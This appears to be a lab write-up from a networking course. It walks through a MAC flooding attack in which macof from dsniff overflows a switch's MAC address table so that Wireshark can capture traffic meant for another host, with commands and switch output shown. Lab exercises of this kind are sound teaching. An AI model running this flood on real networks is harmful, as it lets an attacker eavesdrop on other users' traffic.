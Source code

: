 ```yaml
---
title: MAC flooding
---
```


# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    ![Success](./assets/flooding.png)

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    ![Success](./assets/capture.png)

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark. (Kali Linux)

    ![Success](./assets/capture2.png)

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    
    It is easy to change the behavior of a switch to the behavior of a hub.